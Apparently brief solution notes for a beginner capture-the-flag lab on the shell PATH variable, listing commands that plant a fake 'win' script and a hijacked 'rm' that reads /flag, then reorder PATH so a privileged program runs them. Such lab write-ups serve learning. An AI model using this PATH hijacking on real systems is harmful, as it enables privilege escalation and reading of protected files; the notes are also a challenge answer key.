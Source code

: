 # Pondering PATH

### The PATH Variable
- `PATH=""`
- `/challenge/run`

### Setting PATH
- `PATH="/challenge/more_commands/" `
- `/challenge/run `

### Adding Commands
- `echo cat /flag > win`
- `export PATH=$PATH:/home/hacker`
- `chmod u+x,g+x,o+x win`
- `/challenge/run`

### Hijacking Commands
- `nano rm`
  - `read x < /flag`
  - `echo $x`
- `chmod a+x rm`
- `PATH=""`
- `PATH=/home/hacker/`
- `export PATH`
- `/challenge/run`

